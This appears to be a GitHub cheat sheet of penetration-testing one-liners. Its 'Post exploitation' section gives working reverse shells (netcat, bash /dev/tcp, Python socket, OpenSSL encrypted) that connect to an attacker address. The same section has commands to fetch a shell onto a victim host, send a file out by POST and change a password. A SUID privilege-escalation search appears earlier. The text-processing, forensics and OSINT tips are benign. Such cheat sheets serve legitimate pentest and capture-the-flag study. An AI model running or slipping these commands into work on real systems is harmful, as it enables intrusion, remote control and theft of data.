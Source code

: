 # Text manipulation
* Strip HTML tags
```
cat <file.html> | sed 's/<[^>]*>//g'
```

# Binaries
* Convert binary string into an executable file
```
cat <file> | perl -lpe '$_=pack"B*",$_' > file.bin
```

# Privilege excalation
* Find SUID executables owned by root
```
find / -user root -perm -4000 2>/dev/null -exec ls -ldb {} \;
```

# Post exploitation
```
* Netcat reverse shell
root@kali:~# nc -nvlp 8081
victim@victim:~$ mknod /tmp/backpipe p 
victim@victim:~$ /bin/sh 0</tmp/backpipe | nc <attacker ip>/ 8081 1>/tmp/backpipe
```

* Bash revese shell
```
root@kali:~# nc -nvlp 8081
victim@victim:~$ bash -i >& /dev/tcp/1.1.1.1/8081 0>&1
```

* Standard python shell
```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

* Python shell to upload
```python
#!/usr/bin/python

import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<my ip address>",8081));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

* Download a shell on remote
```
root@kali:~# python -m SimpleHTTPServer 8081
victim@victim:~$ curl <myip>:8081/shell.py -o /tmp/shell.py
```

* ShellPop python reverse shell
```
shellpop --reverse --number 1 --host <ip> --port <port>
```

* Change password with one command
```
echo -e "password\npassword" | passwd user
```

* Run a web server to download files
```
python -m SimpleHTTPServer 9999
```

* Send a file in the body of a POST request
```
curl -d @/<file> <remote server>
```

* Encrypted reverse shell
```
Local
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port <port>
Remote
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ip>:<port> > /tmp/s; rm /tmp/s
SHELL=/bin/bash script -q /dev/null
export TERM=xterm-256color
CTRL+Z.
stty raw -echo
fg
reset
```

# Forensics
* Find non empty directories with depth=1
```
find . -mindepth 1 -maxdepth 1 -not -empty -type d
```

* List and mount vhd volumes (libguestfs-tools)
```
virt-list-filesystems <volume.vhd>
guestmount -a <volume.vhd> -m <device> -r <directory> -o allow_other
```

# Buffer overflow
* Find string offset (pwntools)
```
cyclic 100
p32(address)
```

# Regexes
* Extract domains from file
```
cat <file> | grep -oE "http://[a-z0-9\.]*/" | sed 's/\///g' | sed 's/http://g
```

* Replace some character (A) with some other character (B)
```
cat <file> | tr A B
```

# OSINT
* Get all DNS records
```
dig @dns.server.com domain.com ANY +noall +answer
```

# Python crypto
Use Crypto.Util.number.bytes_to_long and Crypto.Util.number.long_to_bytes
